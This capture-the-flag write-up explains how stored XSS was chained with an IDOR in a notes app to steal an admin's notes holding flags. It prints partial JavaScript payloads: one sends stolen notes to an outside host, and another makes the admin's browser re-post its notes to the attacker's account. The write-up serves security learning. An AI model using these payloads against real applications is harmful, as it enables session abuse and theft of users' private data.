





This task requires us to read the source code and experiment a bit. What we know is that there is an admin account that have notes written with flags on it, and that the admin is checking their notes frequently.

As usual, I opened the app in Burp Suite and started exploring the different endpoints. Analyzing the source code (the app.js) i found this, which directly injects content into the div without any sanitation.

Looking at the payload that we send, I also noticed that we can change which user the note will be stored to. Which means that we can combine XSS with IDOR to perform the attack.

I jumped a bit too fast to conclusion on how to  solve this, as I immediately started working on a payload that would send the user cookie to an endpoint I am hosting, so I could become the admin. This did not work as the CSP header is strict about sending cookies out of the app.

``

So I went straight to plan B and started working on a script that would send everything in the users page to my domain.. With no luck as well :/

`r.json()).then(d=>fetch('https://private.private.gg/api/xss/steal',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({notes:d})}))\">`

But then I remembered that it is possible to run a XSS that will make the current user do API calls on the same app..

To weaponize this, we can

1. Use IDOR to send the XSS payload to the Admin
2. Admin loads the XSS, which will make him run a get request on the fetch notes API
3. Then in the same XSS run a POST request that sends all the notes fetched back to the hacker user by using the same IDOR vuln.

`r.json()) .then(data=>{   data.forEach(n=>{fetch('/api/notes', {       method: 'POST',       headers: {'Content-Type': 'application/json'},       body: JSON.stringify({         user_id: 4,         title: '[Stolen admin] ' + n.title,         content: n.content})})})})\">`

This worked perfectly!.. Almost perfectly! Because doing this made us fetch all the admin notes, but it also made us run the same script, sending all of our notes back to us.. This created a feedback loop that ended up crashing the server 🤣

